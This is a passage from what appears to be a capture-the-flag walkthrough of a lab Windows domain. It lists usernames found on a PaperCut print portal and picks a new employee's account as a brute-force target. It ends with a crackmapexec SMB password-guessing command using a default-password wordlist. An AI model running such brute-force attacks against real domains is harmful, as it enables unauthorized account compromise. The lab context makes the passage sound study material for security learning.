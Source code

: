 ![web3](./fuse/web3.png)

![web4](./fuse/web4.png)

This means there are likley the following users in the domain:

```
bhult
tlavel
pmerton
sthompson
administrator
```

Also, it seems like there _may_ be a new employee with the username `bnielson`? This may be a good target for a bruteforce attack assuming the user has a common password on the domain before logging in and resetting it. Looking for version information for the website does not return anything useful. Try looking for an exploit?

```
searchsploit papercut
```

No luck. There does not seem ot be any open source exploit through a Google search either... Try to run a bruteforce in the background for the user `bnielson`:

```bash
sudo apt install seclists --upgrade
crackmapexec smb 10.10.10.193 -d 'fabricorp.local' -u bnielson -p /usr/share/seclists/Passwords/cirt-default-passwords.txt
```
